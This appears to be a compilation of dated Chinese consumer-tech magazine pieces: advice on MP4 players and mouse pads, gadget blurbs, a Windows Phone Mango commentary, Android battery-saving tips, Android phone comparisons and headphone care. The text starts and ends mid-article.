一款支持高清视频的MP4，由于屏幕分辨率的限制，在MP4本机上是看不出高清效果的。要外接高清显示器才可以体味出高清视频的妙处。所以一款好的MP4应该支持HDTV输出，最好配上遥控器，这样操作更方便。但是高清视频占用的空间是惊人的。4GB、8GB远远不能满足需要，想要播放稍大一点的高清视频，一定要支持OTG技术才行。该技术可以让MP4直接读取U盘或移动硬盘中的视频文件，让容量无限！要注意的是，OTG线需要单独购买，它的一端插入MP4，另一端是母的USB接口，用来插U盘或者移动硬盘。再有，听视频，还不说高清视频，文件个头远远很惊人，超过4GB是家常便饭。由于FAT32文件系统格式的限制（单文件不能超过4GB），所以，一款好的MP4必须支持NTFS格式或exFAT格式，才能满足播放高清视频的需要。

## 写入速度

MP4是用来播放音乐和视频文件的，不是用来存储的，一般需要经常更新文件，喜新厌旧嘛，视频文件一个比个头都不小，这不比音乐文件，如果写入速度很慢，需要多少时间啊，你看下面这款MP4，复制1.8GB的视频文件竟然需要将近20分钟的时间，复制8GB的视频文件需要多少时间，大家很容易算出来的。所以应该选择写入速度快的机型，这一点往往被众多的购买者所忽略。

## 续航时间

经常播放视频的朋友，电量会用得很快，你不想一部电视剧看到中途就没电了，要充上几个小时再继续看吧，那多扫兴！强悍的续航时间是很必要的，尤其是对于在路上时间比较长的朋友。

## 不可缺少的充电器

充电器是不可缺少的，地球人都知道。不过，要强调的是，购买MP4一般不送充电器！所以在购买时一定要注意，最好同时购买，免得下次购买又搭车费，如果有套装优惠当然更好。

总结：对于MP4的视频播放，主要看屏幕分辨率、解码能力和格式支持，后两个参数在广告中一般能看到，忽悠人的往往就是第一个参数。当然，其他参数也不可忽略，它们可能决定了MP4的扩展性和宜...

## 霸气的创意 螺丝挂钩套装

生活中默默耕耘的小螺丝，也争取到出头天的机会！这款来自韩国的巨型螺丝造型的挂钩，用最直接的外向告诉使用者，我的功能是什么，而夸张的身段又直通着创意的成分，把它摆在家里一定很霸气！


## 好马配好鞍 买鼠标垫有门道

一些游戏发烧友用的都是价值几百元的鼠标，但在使用鼠标的时候不知该如何选择鼠标垫，以至于难以发挥出鼠标的全部性能。下面，笔者就将多年来的使用经验来和大家分享一下，希望可以解除大家的“烦恼”。

说起鼠标的伴侣鼠标垫大家一定不会陌生，在现在五花八门的市场中挑选鼠标垫相比是很多人比较费眼的一件事，特别是对于游戏玩家而言，选到好的鼠标垫不仅能够在使用鼠标的过程中感受到鼠标垫带来的舒适感，还能使鼠标更精确地定位，鼠标垫的重要性是不言而喻的。

## 不要只顾好看 颜色与性能也挂钩

越来越多的鼠标已经向激光定位发展，而传统的光电鼠标已经慢慢淡出了市场，为更好地操作鼠标越来越多的鼠标垫也应运而生。激光鼠标的工作原理简单说就是从内部发出一束光，照在鼠标垫，然后反射回到光眼的过程。如果鼠标垫是“花色”的，因激光发射到不同颜色的鼠标垫上被吸收的能量有所不同而漫反射亦不同，所以有可能会导致鼠标轻微地乱跑，还有比较典型的就是鼠标移到鲜艳的颜色部分，指针会发生抖动。为了避免使用中的性能波动我们应尽量选择纯色鼠标垫。我们使用激光鼠标应该尽量避开选购颜色浅的鼠标垫，比如白色、淡黄色等。反光最好的是深蓝色、黑色、红色，不过市面上红色的鼠标垫很少，而且相比前两种颜色更不耐脏，故不推荐。

- CFan推荐产品：SteelSeries Qck heavy
- 小编点评：SteelSeries Qck heavy鼠标垫整体布面黑色为主，不存在颜色干扰问题，软硬适中手感舒适，适合电竞玩家，其200多元的售价在游戏鼠标垫领域很有性价比。

小提示：如果不垫鼠标垫而桌面是“光滑”的也不太好，笔者在学校的时候就没有鼠标垫，打CS的时候鼠标偶尔会出现转圈，还有就是桌面是透明的也不好，这样鼠标的光会直接射过去，有时候鼠标会发生不动的情况！

## 不是衣服 但质地也重要

上文提到的反射率很大程度上也取决于鼠标垫的表面质地，以布面鼠标为例选择时应看布面的反光程度，一般化纤类的反光率高激光打在上面的反射也会更强但随之的干扰也会更大不利于精准定位，在挑选时将鼠标垫对光看，有较强反射面的则为化纤，无论什么角度都不反光的则为棉布，首选。再者，布面的精细程度也很重要，布面的漫反射靠的是每条线的交汇点所呈现，交汇点越精细鼠标垫的定位越精准，就好像同样的照片分辨率高的细节表现好也就更清晰。再者，布面精细的鼠标垫摩擦系数小使用过程中更加顺滑，操作手感也会更加提升，但光有好的布面还是不够的，下层海绵组织也很重要。

鼠标垫布面以下的海绵层对于鼠标的触感至关重要，一般来讲硬度过大容易产生疲劳感，而海绵层过软又有可能使点击鼠标产生的下陷过大，这两者皆会破坏鼠标操作的手感。要兼顾软硬又要手感卓越的办法是多层海绵结构，一般高端鼠标垫都有3~5层之多，每一层所负责的功用各不相同。离布面最近的一层起到缓和点击的冲击力，一般会很薄。中间厚厚的橡胶层可以降低长时间的使用疲劳，越向下硬度越大，紧贴桌面的一层是吸附力很强的橡胶，起到了固定和防滑作用，无论我们如何大的动作鼠标垫总是稳然不动就在于此。我们玩游戏时操作的流畅感都源自这点点滴滴的细节，君不见电竞高手去比赛都是自带键盘、鼠标垫的。而对于要求定位精准的玩家，就要去购买定位准确、手感舒适的玻璃和金属材质鼠标垫产品了。

- CFan推荐产品：Razer Destructor破坏王巨蚁
- 小编点评：Razer巨蚁破坏王由塑料材质组成而成，表层树脂材料顺滑耐磨，中层硬质材料提供绝对的支撑力，保证鼠标在移动时候不会出现下压，底层防滑橡胶能确保鼠标在表层激烈的移动中，带来足够的稳定，达到了高端硬垫的滑度，表面可以看到清晰的纹理，滑度确实让人信服。

小提示：因为显示器分辨率越高鼠标需要移动的范围越广，手掌、鼠标个头都大用太小的鼠标垫也会受制其中，故选择鼠标垫的大小应与显示器分辨率、鼠标个头、以及手掌大小成正比，鼠标分辨率（DPI）越高鼠标垫上每平方英寸的移动在显示器上走过的像素数就越高，故而鼠标垫大小应与鼠标本身分辨率成反比，个中取舍还看用户具体情况。

## 鼠标垫有硬货你知道吗

自从激光鼠标成为FPS（第一人称视角）游戏玩家的标准配置以来，大家一直都在找一种适宜使用激光鼠标的平面。以前不管是直接使用普通桌面还是使用塑料、布的鼠标垫，都不可以避免会出现因磨损而造成同一块鼠标垫不同地方摩擦力不一致，或者摩擦力过大的现象。枪手们因此在玩FPS游戏时的转身或者挥枪动作往往会出现轻微的不流畅。而且在这些平面上，让鼠标由静止到运动这一小段的启动过程存在着比较大的摩擦力，让枪手们想在对远处的小目标进行微调瞄准时非常的困难。所以我们很有必要找到一种这样的鼠标垫，摩擦力小而且非常均匀。人们尝试过很多种的材料都不大理想，直到后来有人发明了磨砂玻璃做的鼠标垫才实现了这一目标。

玻璃鼠标垫表面经过磨砂处理虽然粗糙但程度一致，鼠标在上面操作阻力均匀易控性好于布垫，由于质地坚硬长时间使用也不容易造成局部磨损，但是由于其携带不是很方便，被很多玩家所放弃，因此购买玻璃和金属材质鼠标垫的玩家数量比较少，我们在购买时需要注意底色为深蓝或深黑为宜，道理同布垫。再有高端玻璃鼠标垫有防震型和普通型之分，防震型顾名思义掉在地上不会碎裂但价格更昂贵。

- CFan推荐产品：SteelSeries 1-2
- 小编点评：Experience 1-2鼠标垫依然使用强化玻璃材质制成，并对表面进行了特殊工艺处理，移动鼠标时手感细腻，摩擦力适中，鼠标滑动流畅，报价299元。

鼠标垫的另一种硬货就是金属鼠标垫，其特点与玻璃鼠标垫类似但局部的摩擦力更强，一般对于要求精度非常高的使用者很有吸引力。但摩擦力高所带来的弊病是大动作移动鼠标的不易性，以及对鼠标垫脚的毁灭性，仿佛使用中鼠标就在砂纸上打磨的感觉，非高端玩家不会选择，若有需求最好给鼠标贴好垫脚。

- CFan推荐产品：FIRE-PAD 极地屠戮
- 小编点评：FIRE-PAD极地屠戮鼠标垫是一款采用金属材质制作而成的鼠标垫，不论是手感、定位还是顺滑度都是非常出色的。遗憾的是金属材质鼠标垫很费鼠标脚贴，因此很多玩家都放弃了这种材质的鼠标垫。不过199元的价格还是比较超值的。

小提示：玻璃和金属材质的鼠标垫在手感方面很相似，它们有个共同的特点就是非常细腻。大多数玩家都知道玻璃和金属这两种材质的鼠标垫因为材质本身的原因，不合适手汗重的玩家选用，因为一旦有汗液留在鼠标垫表面上很容易导致鼠标丢帧。

## 好东西要保养

在几种材质中，金属材质的鼠标垫产品属于最难保养的，玻璃材质鼠标垫还可以直接用水清洗，不过笔者建议最好是准备纸巾或是一条毛巾，轻轻擦拭。对于塑料材质和合成材质的保养，非常简单只需要用清水直接冲洗干净再用纸巾或是毛巾擦干即可，我们建议布质鼠标垫最好不要用水清洗，因为布质鼠标垫的吸水性比较强，值得注意的是要控制好水的流量，我们清洗的目的是让布质鼠标垫表面回复顺滑的移动感觉，而不是修复如新，所以对一些比较深的污渍，只要不影响鼠标移动，就不要尝试将其完全擦掉，因为这样很可能会破坏布垫的表面纹理，使得鼠标垫表面的平整性被破坏，鼠标移动起来也会很费劲。

总之鼠标垫本身就是消耗品，任何清理的方法都不能保证让其不受磨损，使用鼠标贴脚和合理的保养确实可以延长鼠标垫的使用寿命，假如你的鼠标垫真的用了很久，我们建议最好还是换一块新的鼠标垫。

总结：通过我们这次详细对市场鼠标垫产品的介绍，相信大家已经对市场所售的鼠标垫产品有了相应的了解。而且在购买时也会非常注意。就目前鼠标垫产品的市场来看，由于布质鼠标垫产品本身成本很低，再加上携带方便，为玩家节省鼠标脚贴等优势已经逐渐成为主流产品，玻璃鼠标垫表面比较顺滑、定位也比较出色，是很多职业玩家所选择的，由于金属材质鼠标垫产品在耐磨度方面不尽人意，因此越来越多的玩家又将目光转向了布质鼠标垫，遗憾的是布质鼠标垫不宜清洗，而且清洗后鼠标垫原来的手感会改变。每种材质的鼠标垫产品都有着本身的优点和缺点。所以笔者建议大家在购买游戏鼠标垫时要看自己个人爱好，要摒弃移动顺滑就是好的错误观念。玩家一定要明确自己的使用习惯，这样才能选到适合自己的鼠标垫。

## 机器人耳机分线器

你看见他圆圆有神的大眼睛，呲着牙，立着耳朵，是个不错的钥匙扣哎！当然光这些是不够的，机器人的大眼睛是两个耳机插孔，可以把一个耳机插孔变成两个~小机器人耳机分线器（Splitterbot）是也~！每当听到好听的音乐就想第一时间与Ta分享，一个耳机孔显然不够，怎么办？将小机器人的头部拔下来，露出脖子（其实就是插头），插入MP3或者手机等音乐设备的耳机插孔，再把两幅耳机“插”入它的眼睛~哦卖糕的，“分享”的过程原来如此销魂！

## Motz超迷你播放器

来自韩国厂商Motz的最新产品，天然高级原木手工刻制，内置锂聚合物电池，全重仅20克，每充满电一次，能提供3~8个小时的畅快聆听（根据使用模式不同，使用的时间长短有所区别）。它不仅可以连接电脑、MP3和手机等设备用作音箱，还能独立当收音机用，内置FM收音机功能，随时随地想听就听。更赞的是，只要插上装有MP3文件的micro SD卡，它就变成一个MP3播放器了！只有一个多功能键，就能完成所有操作，因为外壳是木质的缘故，所以音质颇为不错。

## 电人奥迪车钥匙

奥迪车钥匙形状的钥匙链，不过上面的按钮按下的话就会被电到。超整人的玩意儿，不过不用担心绝对在安全电压以内。本品兼具照明、电人2项功能，你可以告诉别人这是个手电筒，使其中圈套。

## Mango能否打好翻身仗

伴随iPhone出现的iOS，以及谷歌Android系统的兴起，设计理念有些落后的Windows Mobile系统慢慢开始显出疲态。为了摆脱不利局面，微软毅然转变战略方向，推出了让人耳目一新的Windows Phone 7系统——Mango。Mango手机在最初虽然被不少人看好，但市场份额一直被Android以及iOS死死压制。Mango能否让微软成为手机领域的又一个巨人呢？纵观智能手机领域，无论是对比苹果的iOS、谷歌的Android还是诺基亚的塞班，微软依然和它们存在较大的差距。那么Mango的正式公布，究竟能否让WP7摆脱颓势，打好这场翻身仗呢？

## 前景光明 芒果丰收有望

WP7系统虽不够成熟，但重点明确。无论是在Mango的宣传广告中，还是在其发布会上，微软都给所有人传达了这样一个信息：这将是一个能够让用户从互联网世界中解放出来，回到现实生活的设备。而微软也确实在这样做。一方面，它通过革命性的Live Tiles界面，将大量内容在首页展现出来，很大程度上提升了用户的使用效率，节约时间。另一方面，微软着重强调了基础功能的整合，例如People Hub中即将整合的Facebook，以及信息界面中即将整合的MSN聊天等功能，旨在让用户尽可能少地依赖第三方应用。虽然现在看来，微软做得并不算很成功，但很显然，它正朝着这方面不断努力。

良好的开发环境以及应用商店策略，将吸引大量开发者投身WP7应用开发。微软WP7的开发环境非常优秀，不但上手容易，而且在开发过程中，Silverlight可以提供良好的动态效果，Blend和VS express也能作为很好的开发平台。为了方便开发者移植其他平台的应用程序，微软也做出了种种努力。另外，WP7的应用商店提供了不错的试用机制，这一点也能够有效促进应用质量的提高，形成良性循环。

众所周知，Android系统有一个老生常谈的问题，就是版本的分裂。这种分裂不但会为用户带来很大的困扰，也让开发者苦不堪言。为了避免这种情况的出现，微软将统一为Mango手机提供固件升级，且所有Mango手机都能够通过同一桌面套件进行升级。这样一来，所有Mango手机都能够以最快的速度得到系统升级，而开发者也能够从与各个版本的混战中解放出来，更加自如地对新系统进行应用程序的开发。

在最近一份试用报告中称，在Mango系统中看到了IE9移动版的加入。IE原本就是效率不低的浏览器，加上更快的速度以及对html5的支持，让Mango的浏览器一跃成为一大亮点。在Mango的发布会上，微软也专门对其html5执行效率做了测试，测试结果非常让人惊喜——搭载Mango系统的手机以25帧/秒的成绩遥遥领先其他平台，着实让微软扬眉吐气了一把。

## 碧虽有瑕 但前景光明

Mango的发布带来的并不是一片叫好声，因为在一些人看来在Mango系统中，难以看到真正让其脱颖而出的优势功能。Mango系统的升级，用微软的话来说主要集中在三个方面：通信，应用，以及网络。而这些功能对于其他像iOS以及Android这些系统来说，已经比较完善。如果微软的Mango不能提供一个更好的体验以及创新之处的话，将很难说服用户脱离现在相对完备的Android以及iOS系统。再有，微软的Marketplace应用数量太少。根据最新的一份统计，截至北京时间5月29日，微软Windows Phone 7的应用商店软件数量刚刚突破20000款，距离谷歌的Android Market以及苹果的App Store差距明显。

笔者认为随着时间的推移，随着Mango普及量的激增，这些问题将迎刃而解。君不见Android刚面世时怎一个骂声连连，远比Mango前景黯淡。笔者对于Mango系统有这那样的看法，但笔者依然看好这个与众不同的系统。当然，对于Mango用户来说，要想吃到新鲜的芒果，依然要等到今年秋天，但不要忘了，微软并不是一个人在战斗。有了芬兰巨人诺基亚这个强有力的支援，微软一定能够凭借Mango系统的冲击力，在强手如云的手机业界，打出一个漂亮的翻身仗。

## 老虎机存钱罐

既可当存钱罐又可以当老虎机。机器上方为存钱投币口，机器侧面为红色拉杆，拉下拉杆就可以启动机关。可以用真钱玩的哦，还可以当储蓄罐。钱币投入后取出的方法有两种，打开后面的储物盖，要么就试试你的运气吧。拉动拉杆，当显示的三个图案都相同时就会把硬币吐出来了。该老虎机是机械的，不需任何电能就可以使用，拉下右边的拉杆就可以玩，尽量每次摇下拉杆的时候摇到底，这样才会使它的力度到最大，图案才会彻底的转起来，才会更好玩。

## 太阳能彩虹制造器

当阳光的指尖触摸到星星的脸颊，天空将开满七色鲜花——事实上，只要你拥有一款太阳能彩虹制造器（Rainbow Maker），它就不再是童话。不用插电，也无需电池，只需要通过自带的吸盘将之贴在窗户上晒晒太阳，下面那颗施华洛世奇水晶就会在马达的作用下旋转起来，并在阳光的作用下折射出流动的七彩光线，漂亮极了——非常适合买一个送给心爱的TA。

## 超可爱小狗台灯

这款可DIY的台灯采用5毫米厚的E1级椴木夹板材质，DIY成型之后，尾巴可以用作挂钩，身体可以用来储物，而脑袋，除了能像真正的小狗那样用来摸之外（当然，可能会烫手……），还能装上灯泡照明。而最好玩的就是四条腿了，粗短粗短的，都可以活动，稍加摆弄就能以各种憨憨的姿态逗得你会心一笑。

## Android系统要省电 优化技巧帮你忙

用Android手机的人都知道，安卓手机用的久了，手机性能会明显的变差，电池感觉越来越不禁用。本文介绍一些实用的省电小技巧，可以有效优化你的手机系统，延长待机时间。

## 平时不用就关上

平时手机作为通讯工具使用时有很多功能暂时不使用，关闭这些功能可以节省不少用电。大屏手机在亮度上耗电可是不少，降低屏幕亮度可以通过设置→声音和显示设置→亮度，调整屏幕亮度到合适的值。其实安卓手机屏幕亮度即使调到最低也很清晰，适当降低可以有效的节省电量。对于支持光学感应器的手机也可以勾选“Automatic brightness”可根据外界的光线自动调节屏幕亮度。

除了亮度之外，震动就是第二个电老虎了。除了在嘈杂的环境中防止漏接电话之类的事情发生，有什么理由开手机震动呢？起码在办公室和家里的时候还是关闭震动吧。可以通过设置→声音和显示设置，关闭手机震动，容易忽略的触感反馈震动也不可小觑。原则上触感反馈是首先应该关闭的功能，可以通过设置→声音和显示设置，取消选择触感反馈。注：有些品牌的手机无法关闭触感反馈（例如摩托罗拉ME860），此时可以下载关闭震动插件（常见的插件，很容易找到，不过要对应自己的手机型号）。

## 要省电 网络工具随用随开

账户同步这个功能可能有些朋友几年都不会用一次，关闭账户同步势在必行。如果不使用Gmail等Google的服务，可以通过设置→账户与同步，取消选择自动同步功能。使用自动同步将在手机后台自动同步日历、联系人、Gmail邮件和照片到Google服务器，关闭自动同步功能同时也可以节省网络流量。

与之类似的还有关闭背景数据同步，通过设置→账户与同步，取消选择背景数据，注意这样可能会让一些网络程序无法正常工作（再次开启即可）。安卓有很多支持自动同步数据的程序都会动不动的自动更新，比如天气、新闻、股票，以及Twitter等社交网络程序，这些看似智能的底层操作可是会浪费不少电量和流量。我们可以通过改变这些程序的同步频率来达到节省电量的效果。

像无线网络定位功能，如果不使用Google Maps等使用使用者地理位置的程序，可以通过设置→位置和安全设置来关闭使用无线网络功能。不用的时候关闭WiFi、蓝牙、GPS、3G、4G，关闭WiFi和4G网络提醒，通过手机菜单设置→无线和网络设置→Wi-Fi设置，取消选择网络通知功能。对于HTC EVO 4G手机用户也可以按照这个办法关闭4G网络提醒功能。

关闭数据漫游功能，通过手机菜单设置→无线和网络设置→移动网络设置，取消选择数据漫游，取消数据漫游可以节省大量的手机电量，而且不影响程序和手机的网络功能，程序依然可以随时连接网络。

关闭WiFi休眠策略，这个听起来可能有点不可思议，但是WiFi休眠后手机会自动切换到3G网络，3G网络可能比WiFi消耗更多的电池电量。可以通过设置→无线和网络设置→WiFi设置，然后使用菜单键，选择高级选项，打开WiFi休眠策略，选择永不休眠关闭关闭WiFi休眠策略。

注：用户还可以在Market电子市场下载调整屏幕亮度的Widget方便随时设置，Toggle Widget插件可以开启关闭无线功能，比较方便的还可以使用七键开关，要开启那个功能一目了然。

## 过分华丽的效果也很费电

手机的窗口动画效果是很费系统资源的，虽然这些动画效果看起来很酷，但其实也很耗电。如果不太在意手机显示效果，可以通过设置→声音和显示设置→动画→无动画，关闭窗口动画效果。另外最好不要使用Live Wallpaper动态壁纸，动态壁纸是从安卓2.1系统才有的新功能，也是看起来很酷的玩意，开启的话会消耗大量电量和手机资源。更换一张静态壁纸不但能帮你的手机节电，也可以让手机运行更流畅。再有选择一张亮度低的壁纸，这个纯粹算是低碳的义举，虽然未必能节省多少电，起码可以保护眼睛。

## 内部监督 杀掉不必要进程

其实，安卓手机就算在不操作状态也有很多进程在活跃着，把这些不必要的进程终止掉可以省不少电。在安卓2.1系统后开始支持服务管理功能，通过设置→应用程序设置→正在运行的服务，关闭没有必要的服务来节省电量。另外还推荐下载Task killer等进程管理软件来随时杀掉不需要的进程，同样既节点还可以省下手机内存。

注：可以下载安卓优化大师，类似功能的软件轻松实现。如此设置下来，手机正常使用的待机时间达到2天应该问题不大。

## 双核对决Sensation VS Atrix 4G

近期双核之战再度升华。众人期盼已久的HTC双核机型Sensation震撼登场，并且这款机型在短短的一周时间内竟降价近600元，这样该机与当红双核小生摩托罗拉Atrix 4G形成对立局面。同时也有很多朋友都在议论，到底这两款机型谁的性能更为出色，谁更值得入手呢？

HTC Sensation与摩托罗拉Atrix 4G外观设计方面，HTC Sensation与摩托罗拉Atrix 4G均采用直板触控造型，不过由于4.3英寸显示屏的加入HTC Sensation机身尺寸要更大一些，但经过圆润处理后的机身边缘在持握时并不感觉割手，同时金属元素的加入让它整机质感大增。反观摩托罗拉Atrix 4G，该机外壳通体由塑料材质制成，这样的设计让它整机质感受挫。不过为提升质感，摩托罗拉Atrix 4G机身背部采用了仿碳纤维的图案纹理，这也让它有着美丽的背影。

## 整体性能 Atrix 4G 占优

"双核手机"最吸引消费者的地方便是它的整机处理性能，再加上Android智能系统对核心硬件的极度依赖，以及第三方软件资源质量的不断提高，使得消费者对"性能"格外关心。既然HTC Sensation与摩托罗拉Atrix 4G采用了不同的双核芯片，那么它们在处理性能方面定会存在一些差别，而为客观显示出这两款机型的理论处理性能，笔者引入了软件测试评分。

## 基本参数概览

| 产品名称 | HTC Sensation | 摩托罗拉Atrix 4G |
| :--- | :--- | :--- |
| 机身三围 | 65.4×126.1×11.3毫米148克 | 63.5×117.75×10.95毫米 135克 |
| 操作系统 | Android 2.3 | Android 2.2 |
| 处理器 | 高通MSM8260双核处理芯片 1.2GHz | NVIDIA Tegra 2双核处理芯片 1GHz |
| 显示芯片 | Adreno 220 | GeForce |
| 运行内存（RAM） | 768MB | 1GB |
| 屏幕规格 | 4.3英寸电容屏 分辨率540×960像素 | 4英寸 电容屏 分辨率540×960像素 |
| 屏幕材质 | Super LCD | TFT |
| 摄像头 | 800万像素摄像头 | 500万像素摄像头 |
| 最新售价 | 3499元 | 2899元 |

> 通过象限等软件测试数据我们可以看出，在整机处理能力方面，摩托罗拉Atrix 4G要强于HTC Sensation。主要原因在于，虽然高通MSM8260是一款双核芯片，但其架构还维持在Cortex-A8，所以处理性能要逊色于基于Cortex-A9架构的NVIDIA Tegra 2双核芯片。

在视频播放环节，HTC Sensation与摩托罗拉Atrix 4G的表现可谓棋逢对手将遇良材。令人兴奋的是它们均能对1080p高清视频进行播放，不过在图形处理性能方面，HTC Sensation占据微弱优势，高通全新Adreno 220图形芯片还是比较出色的。

## 屏幕显示 Sensation 占上风

实际测试证明，采用Super LCD材质显示屏的HTC Sensation在显示效果方面，要胜于摩托罗拉Atrix 4G。通过同样图片对比我们可以很明了的看出，HTC Sensation显示屏的色彩更为鲜艳，图像锐利、真实度高。不过遗憾的是，在屏幕角度倾斜后，HTC Sensation与摩托罗拉Atrix 4G等两款机型都显得有些不尽人意。但是在户外强光的照射下，Atrix 4G纵使把亮度开到最高也比不上Sensation的显示抗强光效果明显，不过等分辨率下Sensation采用4.3英寸屏幕，Atrix 4G采用4英寸屏幕在近距离观察下Atrix 4G稍显细腻。

## 拍照能力毫无悬念 Sensation 胜出

单单在数值上看就可分辨，采用800万像素摄像头的HTC Sensation在拍照环节再度胜出。同样情况下拍摄照片进行仔细观察对比，会发现Sensation所拍出的照片在色彩饱和度、图像对比度、画面真实度等方面，都要强于摩托罗拉Atrix 4G。摩托罗拉Atrix 4G的拍照样张，给我们的感觉则是整体缺乏色彩，画面真实度还原不够出色，整体感觉有点干涩。

通过以上对比，我们可以看出虽然HTC Sensation在核心硬件方面弱于摩托罗拉Atrix 4G，但从整体性能来看HTC Sensation还是非常出色的。其在多方面保持领先，并且在测试过后并没有发现信号衰减想象。所以在以上两款机型中，笔者更为推崇HTC Sensation，如果你对NVIDIA Tegra 2双核手机情有独钟的话，摩托罗拉Atrix 4G也是一款不错的选择。不过权衡价格因素，率先上市的Atrix 4G摆出的姿态更加亲民。

## 性价比对决开新章 HTC G7 VS 摩托罗拉Defy

虽说今年是“核”战争年，但双核手机的价格普遍还是比较昂贵，而那些曾经的高端手机渐渐低下了高贵的头，成为以性价比搏得市场的利器。根据近期小编收到的读者来信咨询，特奉上两款讨论较多的手机仅供参考。

摩托罗拉Defy是首款具有三防功能的Android手机（三防指的是防水、防尘和防刮划），三防之中值得称道的是其防水功能，把机器整体丢到水里都不会有什么问题（时间不要太长）。手机机身尺寸107×59×13.4mm，厚度方面比较突出，不过作为三防设计也是必须的。重量上反而没有了之前摩托罗拉手机的那种分量，仅118克，就算是女性用户亦可单手完成操作。

硬件配置上，HTC G7和摩托罗拉Defy均采用了一块3.7英寸的屏幕，摩托罗拉Defy的分辨率达到了FWVGA（480×854）分辨率级别，而HTC G7的则是WVGA（480×800）分辨率。虽然摩托罗拉Defy在分辨率上要稍高一些，但是对于用户的观看感受却并没有明显差异，反倒是HTC G7所采用的SLCD材质屏幕相比摩托罗拉Defy的TFT屏幕在色彩的饱和度和对比度都有着更好的显示效果。但是由于Android系统软件的分辨率比例问题，摩托罗拉Defy有点显得鹤立鸡群，部分软件不能全屏，不能不说是个遗憾。

## 基本参数概览

| 产品名称 | HTC Desire (G7) | 摩托罗拉ME525(Defy) |
| :--- | :--- | :--- |
| 处理器 | 高通 Snapdragon QSD8250 | 德州仪器 OMAP3610 |
| 处理器频率 | 1GHz | 800MHz |
| 显示核心 | Imageon Z460-Adreno200 | Imagination PowerVR SGX530 |
| 运行内存 | 512MB ROM+ 576MB RAM | 2GB ROM+ 512MB RAM |
| 屏幕规格 | 3.7英寸 480×800像素 | 3.7英寸 480×854像素 |
| 液晶屏幕 | SLCD | TFT |
| 摄像头 | 500万像素 | 500万像素 |
| 操作系统 | Android 2.1 | Android 2.2 |
| 机身三围 | 119×60×11.9毫米 | 107×59×13.4毫米 |
| 机身重量 | 135克 | 118克 |
| 最新售价 | 2230元 | 2150元 |

## 整体性能 摩托罗拉 Defy 占先

核心配置方面，HTC G7采用的是高通频率为1GHz的处理器，并且搭载了576MB RAM和512MB ROM；而摩托罗拉Defy则采用的是TI OMAP 3610频率为800MHz的处理器，内存为512MB RAM和2GB ROM。虽然就处理器频率而言，HTC G7要更胜一筹，但是处理器的架构却又有所不同，因此在性能上多少会存在一些差异，所以性能表现还应看测试结果。小编通过"象限"、Neocore"跑分测试软件来对这两款手机进行了整体测试。从"象限"跑分来看，摩托罗拉Defy得分1088，HTC G7得分1150，差别很小。但是通过柱状图能够分析得出，G7在CPU单项得分是Defy的近3倍，而Defy又在I/O得分上处于领先地位。在"Neocore"得分方面，Defy跑到了40FPS，还算发挥正常，而G7仅有可怜的28.5FPS，比较出乎意料。

## 拍照能力各有千秋

摩托罗拉Defy和HTC G7均采用了500万像素的摄像头，并且配备了LED闪光灯，G7支持触控对焦、人脸识别功能，因此要更加人性化一些。它输出的照片是5:3宽屏照片，和其他手机有些区别。如没有什么特别专业的摄影需求的话，出去旅游或者是平时随意拍拍照片发微博，G7完全可以应付了。

经过测试发现，虽然摩托罗拉Defy的处理器频率和可运行内存均没有超过HTC G7，但是测试结果却均超过了HTC G7，可见处理器频率和运行内存并非是衡量性能的唯一标准，厂家优化也是一个很重要的因素。可以说，就运算而言HTC G7要更优异一些，反映在用户体验上则是平时的界面操作HTC G7相当流畅，在玩《地牢守护者》时可以看出摩托罗拉Defy比HTC G7整体要流畅一些，这得益于摩托罗拉Defy的显示芯片实力过人。如果是连接WIFI看土豆视频这类，两款机器表现基本一致。

HTC Desire的做工十分精细，这一点延续了HTC手机的一贯优势传统，可能是考虑到整体重量的问题，手机完全采用了塑料材质，135克的机身重量单手操作毫无问题。值得一提的是HTC Desire下方光学轨迹球，可以充当鼠标的作用，并且比G2的那种普通轨迹球更加实用，定位也更加准确。在有电话或者信息到来的时候，轨迹球下方还会亮起灯来。按键也是沿用HTC的设计，以基本按键为主。相比之下摩托罗拉Defy则是对焦拍摄一步完成，简化操作的同时有种一步到位的感觉。同样场景下两款手机所拍摄的照片进行对比可以发现，HTC G7所拍摄的照片锐度较高，但在微距拍摄能力方面较弱，而摩托罗拉 Defy拍摄的照片整体色调相对偏冷，但微距能力出色，更适合拍一些近距离的小物品。

通过对性能、屏幕、拍照等方面的对比之后，相信朋友们对于这两款手机都有了一定的了解。现阶段HTC G7与摩托罗拉Defy的性价比可谓中档Android手机中的话题对象，虽然性能上各有差异，还看用户在使用上偏重哪些因素。另外摩托罗拉Defy手机具备三防功能（不防摔），更适合马大哈的同学哦。

## 别拿耳机不当干部——耳机保养面面观

耳机作为普及率最高的电子设备，广泛运用到各种电子设备上，但是很多人在耳机的使用中不注重对耳机的保养，很多人对耳机的使用和保养存在着许多误区，那么该怎样来延长耳机的使用寿命呢？

所以，在耳机的使用过程中要注意不要让耳机的导线对折，应该尽量地保证导线有一定的弧度。而且在收耳机的时候也要注意不要使耳机导线出现硬角，这样会大大损害到导线的寿命，很可能造成断路，也不要随意地缠到输出设备上，应该在收的过程中保持着一定的弧度，这样您就不用为耳机的导线出问题而大伤脑筋了。

有许多耳机是专用的，如果把专用的耳机用错了地方，那就会产生很严重的后果，如果将一个低功率的耳机连接到一个频率非常高的输出设备上就会造成耳机的损坏。记住，专用的耳机要用在适合的设备上才能发挥出它的作用，否则将会适得其反。

## 耳机的保养

- 1. 耳机插头的保养

耳机的插头是一个非常敏感的部位，因为一旦它出现了问题就会造成接触不良，大大影响了使用效果。

现在，有不少的耳机在制作的过程中为了减少阻抗大多采用了镀金的插头，但是尽管是这样，在使用中过度的磨损也会使耳机的音质受到影响，效果大打折扣。因为这样的金属层一般都很薄，如果进行反复摩擦，就会使脆弱的金属层受到严重损伤，进而使耳机受到严重损伤，也会造成输出设备的触头松动，使得接触不良。所以，在耳机的使用过程中要减少耳机的插拔次数，不要总把耳机拔下来。

另外，在耳机的保存过程中要尽量避免酸性、碱性或是潮湿的环境，因为这样的环境也会使插头的金属层遭到破坏，进而影响耳机的使用寿命。

- 2. 耳塞线和插头的连接处的保养

耳塞线和插头的连接处是耳机上的一个比较脆弱的部位，许多耳机会因为此处的损坏而不能够继续使用，那么，怎样的处理才会使耳机的寿命更长呢？

耳塞线和插头的连接处的里面是焊点，这样在拔耳机的过程中如果用力过猛或过大就很容易造成焊点脱落，耳机也就报废了。

所以，在使用新耳机前最好先把耳塞线和插头的连接处用橡胶固定一下，在拔掉耳机的时候也要有正确的方法，先是用手捏住插头，再轻轻地拔出，坚决杜绝在拔的过程中用力过大或者是速度过快，因为那样会很容易使焊点脱落，耳机不能再继续使用。

- 3. 耳机导线的保养

